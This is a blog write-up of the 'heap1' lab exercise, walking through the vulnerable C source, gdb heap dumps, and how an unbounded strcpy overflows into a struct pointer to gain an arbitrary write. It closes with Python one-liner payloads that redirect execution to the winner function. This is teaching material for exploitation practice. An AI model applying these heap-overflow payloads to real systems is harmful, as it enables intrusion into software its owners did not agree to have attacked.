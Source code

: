 ```yaml
---
title:  "Writeup: heap1"
date:   2019-04-22 
categories: writeup
layout: post
author: Robaire Galliath
---
```


Before diving into heap1 it is important to understand what we have to work with. Looking at the source code it is clear that much like in heap0 we need to call the function `winner` to read the flag.

```c
void winner()
{
  char buffer[64];
  FILE *fp;

  printf("and we have a winner @ %d\n", time(NULL));

  fp = fopen("./flag.txt", "r");

  fgets(buffer, 64, (FILE*)fp);
  printf("flag: %s\n", buffer);
}
```
Of course looking at main, there is no direct way to call winner like there was in heap0.

```c
int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```

What we do see in main is that some memory is being allocated on the heap. In total four items are malloc'd, two instances of the struct `internet` and two eight byte arrays. 

Lets break down exactly what is happening.

1. First the `internet` struct is malloc'd.

```c
struct internet {
  int priority;
  char *name;
};
```

```c
i1 = malloc(sizeof(struct internet));
```

This allocates at least eight bytes, four for the integer `priority` and another four to store the pointer to `name`.

2. Then the value of `priority` is set.

```c
i1->priority = 1;
```

3. Finally eight bytes are malloc'd, and the address of that chunk is stored in `name`.

```c
i1->name = malloc(8);
```

So what exactly does that look like in memory? I used the gef plugin for gdb to get a nice printout of the heap right after all four objects are malloc'd. 

```ruby
Chunk(addr=0x804b008, size=0x10, flags=PREV_INUSE)
    [0x0804b008     01 00 00 00 18 b0 04 08 00 00 00 00 11 00 00 00    ................]
Chunk(addr=0x804b018, size=0x10, flags=PREV_INUSE)
    [0x0804b018     00 00 00 00 00 00 00 00 00 00 00 00 11 00 00 00    ................]
Chunk(addr=0x804b028, size=0x10, flags=PREV_INUSE)
    [0x0804b028     02 00 00 00 38 b0 04 08 00 00 00 00 11 00 00 00    ....8...........]
Chunk(addr=0x804b038, size=0x10, flags=PREV_INUSE)
    [0x0804b038     00 00 00 00 00 00 00 00 00 00 00 00 c1 0f 02 00    ................]
Chunk(addr=0x804b048, size=0x20fc0, flags=PREV_INUSE)  ←  top chunk
```

There is a lot going on here so let's break it down by chunk.

```ruby
Chunk(addr=0x804b008, size=0x10, flags=PREV_INUSE)
    [0x0804b008     01 00 00 00 18 b0 04 08 00 00 00 00 11 00 00 00    ................]
```

This first chunk represents the first `internet` struct. It begins at address `0x804b008` and is sixteen bytes long. The first four bytes are the `priority` integer, and in this case it has been set to 1, `01 00 00 00`. The next four bytes, `18 b0 04 08`, is the pointer to `name`. Then there are eight extra bytes that store some metadata about the chunk, but that is not important and can be ignored.

```ruby
Chunk(addr=0x804b018, size=0x10, flags=PREV_INUSE)
    [0x0804b018     00 00 00 00 00 00 00 00 00 00 00 00 11 00 00 00    ................]
```

This second chunk stores the eight bytes that were malloc'd to store `name`. Notice that the address of this chunk is the same address that was stored in bytes five through eight of the previous chunk.

The remaining two chunks are structured the same as the first two, just with different values. 


After memory is allocated, the first two arguments to the program are copied into `name` using `strcopy`. Our exploit will rely on the fact that `strcopy` has no idea how many bytes to write and will readily overflow the buffer it is writing to.

```c
strcpy(i1->name, argv[1]);
strcpy(i2->name, argv[2]);
```

But for now lets read in some simple inputs and see what happens. In this case heap1 was given `aaaaaaaa` and `bbbbbbbb` as command line arguments. Looking at the heap after the calls to `strcpy` we can clearly see the strings we provided as series of 61's and 62's.

```ruby
Chunk(addr=0x804b008, size=0x10, flags=PREV_INUSE)
    [0x0804b008     01 00 00 00 18 b0 04 08 00 00 00 00 11 00 00 00    ................]
Chunk(addr=0x804b018, size=0x10, flags=PREV_INUSE)
    [0x0804b018     61 61 61 61 61 61 61 61 00 00 00 00 11 00 00 00    aaaaaaaa........]
Chunk(addr=0x804b028, size=0x10, flags=PREV_INUSE)
    [0x0804b028     02 00 00 00 38 b0 04 08 00 00 00 00 11 00 00 00    ....8...........]
Chunk(addr=0x804b038, size=0x10, flags=PREV_INUSE)
    [0x0804b038     62 62 62 62 62 62 62 62 00 00 00 00 c1 0f 02 00    bbbbbbbb........]
Chunk(addr=0x804b048, size=0x20fc0, flags=PREV_INUSE)  ←  top chunk
```

It is important to understand what exactly is happening when `strcopy` is called. 

```c
strcpy(i1->name, argv[1]);
```

The address `strcpy` will write to is stored in `i1`. In this case it is `0x0804b018`. `strcpy` will then start writing bytes beginning at that address.

Remember how `strcpy` will write as many bytes as you tell it to? Let's see what happens when we pass it more than sixteen bytes (the total size of chunk 2).

```ruby
Chunk(addr=0x804b008, size=0x10, flags=PREV_INUSE)
    [0x0804b008     01 00 00 00 18 b0 04 08 00 00 00 00 11 00 00 00    ................]
Chunk(addr=0x804b018, size=0x10, flags=PREV_INUSE)
    [0x0804b018     61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61    aaaaaaaaaaaaaaaa]
Chunk(addr=0x804b028, size=0x61616160, flags=PREV_INUSE)
    [0x0804b028     61 00 00 00 38 b0 04 08 00 00 00 00 11 00 00 00    a...8...........]
Chunk(addr=0x804b038, size=0x10, flags=PREV_INUSE)
    [0x0804b038     62 62 62 62 62 62 62 62 00 00 00 00 c1 0f 02 00    bbbbbbbb........]
Chunk(addr=0x804b048, size=0x20fc0, flags=PREV_INUSE)  ←  top chunk
```

The seventeenth `a` got written into the chunk for `i2`. If we wrote a few more bytes we could overwrite the address stored in `i2` to point anywhere we want. Then the second call to `strcpy` will write to that new address instead of writing into chunk 4 like it should. This gives us the power to write what ever we want, where ever we want.

As an example lets use `python -c "print 'a'*20 + '\x10\x10\x10\x10'"` as our input.

```ruby
Chunk(addr=0x804b008, size=0x10, flags=PREV_INUSE)
    [0x0804b008     01 00 00 00 18 b0 04 08 00 00 00 00 11 00 00 00    ................]
Chunk(addr=0x804b018, size=0x10, flags=PREV_INUSE)
    [0x0804b018     61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61    aaaaaaaaaaaaaaaa]
Chunk(addr=0x804b028, size=0x61616160, flags=PREV_INUSE)
    [0x0804b028     61 61 61 61 10 10 10 10 00 00 00 00 11 00 00 00    aaaa............]
```
Now the second call to `strcpy` will write our b's to address `0x10101010`.


If we know where the top of the stack is, we can now use this method to overwrite the return address so that when `main` exits, `winner` is called instead. We have used this technique several times already. Using gdb we can find out the address of `winner` is `0x804854b`. So we need to write that somewhere near the top of the stack. 

So our first arugment needs to overwrite the address stored in the second struct.

```python
python -c "print 'a'*20 + '\x??\x??\x??\x??'"
```

And the second argument needs to be the address of `winner`.

```python
python -c "print '\x4b\x85\x04\x08'"
```

(To make things a little easier you might want to write more than one copy of `0x804854b`.) 
